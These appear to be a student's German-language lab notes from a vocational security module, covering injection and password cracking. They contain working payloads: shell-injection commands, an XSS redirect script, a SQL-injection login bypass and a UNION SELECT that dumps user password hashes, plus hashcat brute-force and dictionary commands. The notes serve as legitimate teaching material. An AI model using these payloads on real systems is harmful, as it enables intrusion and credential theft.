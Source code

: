 tag:: [[GIBB]] 
module:: 183

- [[Injection]]
- [[Brute Force]], [[Dictionary Attack]], [[Hashing]], [[Hashcat]]
-
- ## Workshop 1 - Injection über Web
  collapsed:: true
	- #### Shell Injection
		- Über das Web Formular auf die Shells des Servers gelangen. Mit `;` escapen, dann z.B. `ls -l`
		- Prozesse und Ihre Besitzer auslesen: `ps aux | grep website`
		- Welche Crontabs hat der User?: `crontab -l`
		- Wie sieht der Sourcecode der Webseite aus: `cat website.p1`
		- Mit was für eine Sprache (Version) wird die Seite ausgeführt: `perl --version`
	- ### XSS Injection
		- JS zum Umleiten auf GIBB Webseite
		- ```javascript
		  <script language="javascript" type="text/javascript">
		  	window.setTimeout('window.location = "https://portal.gibb.ch"',20000);
		  </script>
		  
		  ;sed -i "s/willkommen!/Her will"
		  ```
-
- ## Workshop 2 - Injection über TCP
	- #### Login ohne Credentials
		- ```bash
		  $ ziu login
		  User: ' or 1=1; # 
		  Password: *
		  ```
		- Die SQL-Injection sollte beim **Usernamen** eingegeben werden, weil die Abfrage meist zuerst nach dem Benutzernamen sucht. So kann der Angreifer die Passwortprüfung umgehen.
		- Da `1=1` immer **wahr** ist, wird die Abfrage für alle Benutzer gültig – der Angreifer kann sich ohne Passwort einloggen!
		- Gebe ein beliebiges Passwort von mindestens der Länge 1 an, damit die TCP-Nachricht das korrekte Format hat und vom Server akzeptiert wird.
	- #### Credentials auslesen
		- `ziu artikel "aaaa' union select name, pw_hash, '', '' from user; #"`
		- **Was bewirkt der String aaaa?**
			- `aaaa` ist einfach ein Platzhalter, um die ursprüngliche SQL-Abfrage nicht komplett zu verändern. Es wird eine normale Abfrage nach einem Artikel mit dem Namen `aaaa` vorgetäuscht.
		- **Was macht ein union select?**
			- `UNION SELECT` erlaubt es, eine zweite Abfrage an das ursprüngliche Ergebnis anzuhängen.
			- Das bedeutet, dass wir zusätzlich zur ursprünglichen Tabelle **Daten aus einer anderen Tabelle** (hier `user`) abrufen können.
			- Damit der `UNION`-Angriff funktioniert, muss die Anzahl der Spalten übereinstimmen.
		- **Warum hat es zwei Leerstrings (' ') im Angriff?**
			- Die Original-Abfrage könnte eine Tabelle (`artikel`) mit vier Spalten haben.
			- Die `user`-Tabelle hat aber nur zwei relevante Spalten (`name` und `pw_hash`).
			- Damit der `UNION SELECT` funktioniert, müssen wir zwei leere Werte (`''`) hinzufügen, damit die Spaltenanzahl passt.
		- **Was erhalten Sie als Ergebnis?**
			- Falls die SQL-Injection erfolgreich ist, gibt die Datenbank eine Liste mit Artikeln **und zusätzlich die Benutzerdaten**(Name und Passwort-Hash) aus der `user`-Tabelle zurück.
			- Anstatt nur Artikel anzuzeigen, werden also auch **gehackte Usernamen und Passwort-Hashes** sichtbar!
			- ![Screenshot 2025-02-04 at 09.28.40.png](../assets/Screenshot_2025-02-04_at_09.28.40_1738657724348_0.png){:height 86, :width 656}
	- #### Server weiter ausforschen über Shell-Injection
	- #### Remote Shell aktivieren
	- #### Daten Verändern
-
- ## Worshop 3
	- hashcat --show -m 0 root.txt
	- echo -n "abc" | md5s
	- ### Passwörter aus Listen wiederherstellen
		- `md5_4_smallletters.txt`
			- ```bash
			  hashcat -m 0 -a 3 md5_4_smallletters.txt ?l?l?l?l --force
			  hashcat --show -m 0 md5_4_smallletters.txt
			  ```
		- `md5_6_smallletters.txt`
			- ```bash
			  hashcat -m 0 -a 3 md5_6_smallletters.txt ?l?l?l?l?l?l --force
			  hashcat --show -m 0 md5_6_smallletters.txt
			  ```
		- `md_4_AlphaNum.txt`
			- ```bash
			  hashcat -m 0 -a 3 md_4_AlphaNum.txt ?a?a?a?a --force
			  hashcat --show -m 0 md_4_AlphaNum.txt
			  ```
		- `md_4_germanset.txt`
			- ```bash
			  hashcat -m 0 -a 3 
			  	--custom-charset1=aäöüÄÖÜßbcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 
			      md5_4_germanset.txt ?1?1?1?1 
			      --force
			  ```
			- `--custom-charset1=` → Defines a custom charset
			- `?1?1?1?1` → Tries **4-character passwords** from the custom charset
		- `md5_8_AlphaNum.txt` with **Dictionary Attack**
			- ```bash
			  hashcat -m 0 -a 0 md5_8_AlphaNum.txt rockyou.txt --force
			  ```
		- `md5_8_smallletters`
			- ```bash
			  hashcat -m 0 -a 0 md5_8_smallletters.txt rockyou.txt --force
			  ```
		-